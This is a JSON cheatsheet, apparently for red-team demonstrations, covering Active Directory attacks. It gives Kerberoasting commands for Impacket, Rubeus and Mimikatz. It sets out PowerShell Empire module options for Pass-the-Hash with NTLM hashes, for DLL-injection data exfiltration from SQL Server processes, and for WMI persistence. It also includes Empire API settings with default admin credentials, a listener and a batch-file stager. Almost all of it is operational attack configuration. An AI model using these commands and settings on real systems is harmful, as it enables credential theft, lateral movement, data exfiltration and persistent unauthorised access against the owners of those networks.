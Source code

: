 
{
  "description": "Demonstration Cheatsheet for Advanced Exploitation Scenarios",
  "scenarios": {
    "Kerberoasting": {
      "tool": "Impacket or Rubeus",
      "description": "Extract and crack Kerberos tickets for service accounts to uncover weak passwords.",
      "commands": {
        "Impacket": "GetUserSPNs.py <domain>/<username>:<password> -request",
        "Rubeus": "Rubeus.exe kerberoast",
        "Mimikatz": "kerberos::list /export"
      }
    },
    "Pass-the-Hash": {
      "description": "Demonstrate lateral movement using Pass-the-Hash technique.",
      "tool": "PowerShell Empire",
      "module": "credentials/pth",
      "options": {
        "User": "username_here",
        "NTLM": "ntlm_hash_here",
        "Target": "target_machine_name"
      }
    },
    "Data Exfiltration": {
      "description": "Show how to extract sensitive data from a compromised machine.",
      "tool": "PowerShell Empire",
      "module": "collection/netripper",
      "options": {
        "Application": "sqlserver.exe",
        "PathToSave": "/path/to/save/data"
      }
    },
    "Advanced Persistence": {
      "description": "Establish advanced persistence using WMI events.",
      "tool": "PowerShell Empire",
      "module": "persistence/elevated/wmi",
      "options": {
        "Listener": "listener_name_here",
        "DailyTime": "HH:mm"
      }
    }
  }
}





{
  "api/admin/login": {
    "username": "empireadmin",
    "password": "password"
  },
  "listeners/http": {
    "Name": "http_listener_demo",
    "Port": 8080,
    "Host": "http://localhost:8080"
  },
  "stagers": {
    "Listener": "http_listener_demo",
    "StagerName": "windows/launcher_bat",
    "OutFile": "C:\\Path\\To\\launcher_demo.bat"
  },
  "kerberoast": {
    "ModuleName": "credentials/kerberoast",
    "Agent": "agent_name_here",
    "Options": {
      "SPN": "MSSQLSvc/domain.com:1433",
      "User": "optional_user_name"
    },
    "Description": "Ce module lance une attaque Kerberoast pour extraire les tickets TGS des comptes de service. Les tickets peuvent ensuite être crackés hors ligne pour récupérer des mots de passe. La spécification d'un SPN (Service Principal Name) cible peut affiner l'attaque vers des services spécifiques."
  },
  "pass-the-hash": {
    "ModuleName": "credentials/pth",
    "Agent": "agent_name_here",
    "Options": {
      "User": "username_here",
      "NTLM": "ntlm_hash_here",
      "Target": "target_machine_name"
    },
    "Description": "Utilise la technique Pass-the-Hash pour s'authentifier sur une machine cible sans mot de passe en texte clair, en utilisant un hash NTLM récupéré."
  },
  "data-exfiltration": {
    "ModuleName": "collection/netripper",
    "Agent": "agent_name_here",
    "Options": {
      "Application": "sqlserver.exe",
      "PathToSave": "/path/to/save/data"
    },
    "Description": "Injecte un sniffer DLL dans des processus spécifiques (par exemple, sqlserver.exe) pour intercepter et exfiltrer des données sensibles."
  },
  "persistence": {
    "ModuleName": "persistence/elevated/wmi",
    "Agent": "agent_name_here",
    "Options": {
      "Listener": "listener_name_here",
      "DailyTime": "HH:mm"
    },
    "Description": "Configure une persistance en utilisant les événements WMI pour exécuter un payload à un moment spécifié chaque jour."
  }
}
